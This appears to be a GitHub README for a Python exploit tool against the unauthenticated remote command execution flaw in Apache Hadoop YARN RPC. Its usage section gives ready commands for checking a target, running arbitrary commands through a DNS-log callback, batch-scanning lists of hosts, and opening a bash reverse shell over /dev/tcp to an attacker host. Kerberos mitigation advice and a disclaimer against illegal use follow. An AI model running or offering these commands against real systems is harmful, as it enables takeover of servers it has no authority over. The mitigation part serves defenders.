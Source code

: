 ## Vuln Impact

On November 15, 2021, A security researcher disclosed that there was an unauthorized access vulnerability in Hadoop yarn RPC. This vulnerability existed in Hadoop yarn, the core component of Hadoop. Because Hadoop yarn opened the RPC service to the public by default, a remote attacker could take advantage of this unauthorized vulnerability and execute arbitrary commands through the RPC service, so as to control the target server, In view of the high-risk status and great harm of this vulnerability, and the details have been disclosed and exploited by the opposition, it is recommended that all users using Apache Hadoop conduct self-examination and take security measures in time.

## Vuln Product

Apache Hadoop Yarn *

## Vunl Check

#### Basic usage

```c
python3 Hadoop_Yan_RPC_RCE.py
```

![img](img/usage.png)

#### Vuln check

```c
python3 Hadoop_Yan_RPC_RCE.py -v true -t http://www.target.com 
```

![img](img/check.png)

#### command execute

```c
python3 Hadoop_Yan_RPC_RCE.py -a true -t http://www.target.com  -c "curl xxx.dnslog.cn"
```

![attack](img/attack.png)

![dnslog](img/dnslog.png)

#### batch scan

```c
python3 Hadoop_Yan_RPC_RCE.py -s true -f target.txt
```

![scan_result](img/scan_result.png)

#### Reserve Shell

```c
python3 Hadoop_Yan_RPC_RCE.py -a true -t http://www.target.com -c "bash -i >& /dev/tcp/ip/port 0>&1"
```

![reverse_shell1](img/reverse_shells.png)

### Reference

https://nosec.org/home/detail/4905.html

https://github.com/N0b1ta/Bit-Cannon/tree/master/Apache/Hadoop/YARN/hadoop-yarn-rest-api-unauth

#### Safety Advice  

1.Enable Kerberos authentication to prevent unauthorized access.  

```xml
<property>
    <name>hadoop.security.authentication</name>
    <value>kerberos</value>
    <final>false</final>
    <source>core-site.xml</source>
</property>...
<property>
    <name>hadoop.rpc.protection</name>
    <value>authentication</value>
    <final>false</final>
    <source>core-default.xml</source>
</property>
```

2.Prohibit external addresses from accessing Hadoop RPC service related ports or configured to be open only to trusted addresses.



**Solemnly declare: Don't use this tool for illegal operation. This tool is only used for safety self checking  by Party A's personnel and Party B's personnel.If the user uses it illegally, the legal responsibility shall be borne by the user!!!**.
